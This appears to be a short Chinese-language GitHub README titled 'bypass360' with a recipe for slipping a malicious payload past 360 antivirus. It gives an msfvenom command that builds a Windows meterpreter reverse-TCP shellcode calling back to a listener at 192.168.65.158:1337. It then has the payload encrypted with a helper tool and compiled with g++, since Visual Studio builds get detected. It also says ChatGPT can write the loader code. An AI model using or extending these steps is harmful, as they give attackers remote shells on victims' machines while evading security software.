



# bypass360

1. 生成shellcode：msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.65.158 LPORT=1337 -f c

2. .\echoS.exe  msf生成的shellcode  密码 shellcode的size

3. 编译命令g++ -o 360.exe main.cpp lazy_importer.hpp
4. 实现的代码很简单，问chatGPT即可

echoS也可自行编译

为啥要用g++？因为用vs2019会报毒

